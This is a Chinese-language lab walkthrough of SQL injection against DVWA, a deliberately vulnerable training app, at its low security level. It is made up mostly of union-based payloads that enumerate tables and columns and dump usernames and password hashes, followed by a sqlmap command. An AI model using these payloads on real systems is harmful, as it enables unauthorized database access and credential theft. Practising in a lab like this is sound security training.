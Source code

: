 判断字段长度

1' order by 1 #

输入3，出现报错。

说明只有两个字段。

判断回显：1' union select 1,2 #

然后代入查询

![image-20220124220733662](https://s2.loli.net/2022/01/24/RqZrntC85kxKHST.png)

获取表：

```
1' union select 1,table_name from information_schema.tables where table_schema='dvwa
```

![image-20220124221050252](https://s2.loli.net/2022/01/24/34ugY8AqWQDfabZ.png)

如果表比较多：

```
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema='dvwa
```

然后查询字段：

```
1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users
```

![image-20220124221524714](https://s2.loli.net/2022/01/24/RxHAEnGBSiTW3ak.png)

```
1' union select group_concat(user_id,first_name,last_name),group_concat(user,password) from users #
```

![image-20220124221846909](https://s2.loli.net/2022/01/24/Gw1tvacdhSgZU8z.png)

MD5解密即可：

![image-20220124221948385](https://s2.loli.net/2022/01/24/8XH3QWv9IpcJq5A.png)



![image-20220126190404257](https://s2.loli.net/2022/01/26/HogpKf8xjsiatkd.png)

也可以通过sqlmap进行注入。

```
python sqlmap.py -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; security_level=0; PHPSESSID=2skes96bbgh4hn8js60vknurp1" -D dvwa -T users --columns
```

![image-20220126191946435](https://s2.loli.net/2022/01/26/sGvC79Rh6MT1rqe.png)

**2.medium**
